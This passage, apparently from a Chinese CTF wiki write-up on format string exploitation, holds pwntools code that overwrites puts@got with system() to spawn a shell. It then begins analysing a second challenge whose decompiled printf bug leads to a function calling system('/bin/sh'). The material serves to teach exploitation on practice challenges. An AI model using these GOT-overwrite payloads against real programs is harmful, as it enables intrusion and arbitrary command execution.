 ```py

# 在本地，直接用下面这个方法比较方便
libc.address = printf_addr - libc.symbols['printf']
system_addr = libc.symbols['system']
success('system addr : ' + hex(system_addr))

# modify puts@got, point to system_addr
payload = fmtstr_payload(7, {pwn3.got['puts']: system_addr})
success('puts@got : ' + hex(pwn3.got['puts']))
success('system addr : ' + hex(system_addr))
success('payload:\n' + payload.decode('latin-1'))
put('/bin/sh', payload)
sh.recvuntil(b'ftp>') 
sh.sendline(b'get')
sh.recvuntil(b'enter the file name you want to get:')
#gdb.attach(sh)
sh.sendline(b'/bin/sh')

# system('/bin/sh')
show_dir()
sh.interactive()
```

### 3. [三个白帽-pwnme](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/三个白帽-pwnme_k0)

使用ida进行分析，可以发现在函数sub_400B07中存在格式化字符串漏洞。

```c
int __fastcall vulu_sub_400B07(int a1, int a2, int a3, int a4, int a5, int a6, __int64 format, int a8, __int64 a9)
{
  write(0, "Welc0me to sangebaimao!\n", 0x1AuLL);
  printf((const char *)&format);
  return printf((const char *)&a9 + 4);
}
```

另外，发现函数sub_4008A6直接调用了system("/bin/sh")

```
int sub_4008A6()
{
  return system("/bin/sh");
}
```

那我们就可以利用字符串溢出漏洞，将返回地址修改为sub_4008A6即可。

**问题1**：返回地址的位置：

执行的程序如下：

```
Register Account first!
Input your username(max lenth:20): 
aaaa
Input your password(max lenth:20): 
bbbb
Register Success!!
1.Sh0w Account Infomation!
2.Ed1t Account Inf0mation!
3.QUit sangebaimao:(
>1
Welc0me to sangebaimao!
```
